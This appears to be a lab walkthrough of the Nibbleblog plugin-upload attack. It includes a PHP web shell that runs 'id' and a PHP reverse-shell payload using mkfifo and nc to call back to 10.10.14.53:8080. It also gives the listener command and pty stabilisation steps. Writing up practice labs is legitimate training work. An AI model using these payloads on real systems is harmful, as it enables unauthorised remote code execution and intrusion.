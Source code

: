 6 Pages
- Publish
- Comments
- Manage
- Settings
- Themes
- Plugins

- Use the following PHP Code to upload to the Plugin page and see if the command will execute

```php
<?php system('id'); ?>
```

- After the files have uploaded, we must verify the location
- Files were uploaded to 10.129.177.105/nibbleblog/content/private/plugins/my_image/
	- db.xml
	- image.php
- Clicking on the image.php file will execute the *id* command, validating our test was successful
- Now we repeat the same process but with a reverse shell bash one liner and listen for the connection on our machine

**shell.php**
```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 8080 >/tmp/f"); ?>
```

**on our machine**
```
nc -nvlp 8080
```

When you get your shell, you may be in a limited environment
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**The Below Two Steps will Stabilize your Shell**
```
echo 'export TERM=xterm-256color' >> ~/.bashrc
```

```
source ~/.bashrc
```


